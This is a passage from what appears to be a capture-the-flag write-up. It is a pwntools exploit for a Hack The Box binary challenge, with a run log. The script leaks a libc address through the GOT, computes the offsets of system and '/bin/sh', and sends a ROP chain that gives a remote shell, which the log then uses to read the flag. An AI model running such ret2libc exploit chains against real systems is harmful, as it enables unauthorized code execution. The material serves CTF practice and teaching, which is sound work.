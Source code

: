```python
chain += p64(base + elf.got.read)
chain += p64(base + elf.plt.puts)               # leak it
chain += p64(base + elf.sym.missile_launcher)   # go back to vuln function

# send stage1
io.sendline(chain)
#context.log_level = 'debug'
# read leaked address
io.recvuntil(b"eset!\x1b[1;34m\n")


libc_read = u64(io.recv(6) + b'\x00\x00')
print("leaked read add: %s"%hex(libc_read))

# compute some offset, easy game we have a copy of the libc
system = libc_read - 0xb1fb0
bin_sh = libc_read + 0x95b07

# play again
io.recvuntil(b'y = ')
io.sendline(b'')
io.recvuntil(b'(y/n): ')

# system(/bin/sh)
chain = b'A'*offset
chain += p64(base + pop_rdi_ret)
chain += p64(bin_sh)
chain += p64(system)
print("shell...")
io.sendline(chain)
io.interactive()

```

```
% python pwn_retribution.py
[+] Opening connection to 138.68.188.223 on port 30195: Done
leaked base: 0x55d80eab0000
leaked read add: 0x7f893c52b350
shell...
[*] Switching to interactive mode

[-] Permission Denied! You need flag.txt in order to proceed. Coordinates have been reset!
$ id
uid=100(ctf) gid=101(ctf)
$ cat flag.txt
HTB{d0_n0t_3v3R_pr355_th3_butt0n}
$
[*] Interrupted
[*] Closed connection to 138.68.188.223 port 30195
```
